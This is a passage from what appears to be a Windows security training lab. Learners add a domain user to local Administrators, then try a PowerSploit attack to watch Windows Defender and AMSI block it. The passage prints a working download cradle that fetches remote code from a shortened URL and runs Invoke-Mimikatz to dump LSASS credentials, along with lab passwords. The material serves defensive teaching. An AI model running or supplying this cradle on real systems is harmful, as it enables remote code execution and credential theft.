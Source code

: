 
#### Task 1: Add a domain user to the local Administrators group.

  > **Note:**  At this point, you are logged on as a member of the Domain Admins group. In order to illustrate a more common exploit scenario, you will operate as a member of local Administrators group on domain member computers. To prepare for this scenario, you will add an existing domain user account **ADATUM\\Beth** to the local Administrators group on LON-CL1 and LON-SVR1.

1.   Ensure that you are signed in to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Administrator**
  -   PASSWORD: **Pa55w.rd**

2.   In **Administrator: Windows PowerShell ISE**, run the following (F:\\LabFiles\\Scripts\\Lab1Ex2Task1-01.ps1):

```
Invoke-Command –ComputerName 'LON-CL1','LON-SVR1' `
               -ScriptBlock {
                     Add-LocalGroupMember –Group 'Administrators' `
                                           –Member 'ADATUM\Beth'
               }
```

3.   Sign out from LON-CL1.


#### Task 2: Attempt a Windows PowerShell exploit on a Window 10 Professional computer

  > **Note:**  You will start by attempting an exploit that employs the PowerSploit (PowerShell Post-Exploitation Framework) functionality to run the **Invoke-Mimikatz** cmdlet on a Windows 10 computer. The PowerSploit module containing this cmdlet is loaded directly into memory by taking advantage of download cradle. **Invoke-Mimikatz**, in turn, takes advantage of **Invoke-ReflectivePEInjection** (which is also part of PowerSploit) in order to reflectively load Mimikatz directly into memory. Once successfully executed, Mimikatz allows an attacker to dump credentials from the Local Security Authority Subsystem Service (LSASS) on the computer targeted by the cmdlet. 

1.   Sign in to the LON-CL1 Windows 10 Professional lab virtual machine with the following credentials:

  -   USERNAME: **ADATUM\\Beth**
  -   PASSWORD: **Pa55w.rd**

2.   Open Internet Explorer.
3.   Start **Windows PowerShell** as administrator.
4.   From the **Administrator: Windows PowerShell** window, run the following (F:\\LabFiles\\Scripts\\Lab1Ex2Task2-01.ps1):

```
IEX (New-Object Net.WebClient).DownloadString('http://is.gd/oeoFuI'); Invoke-Mimikatz -DumpCreds -ComputerName @('LON-CL1')
```

5.   Note the resulting error message. The attempt to download and execute malicious script is blocked by Windows Defender. To verify this, open **Event Viewer**.
6.   In the Event Viewer window, navigate to the **Applications and Services\\Microsoft\\Windows\\Windows Defender\Operational** log.
7.   In the list of events in the Windows Defender Operational log, open the most recent event **ID 1116** with the **Warning** level.
8.   On the **General** tab of the event properties, scroll down through its description and note that the **Detection Source** is set to **AMSI**.
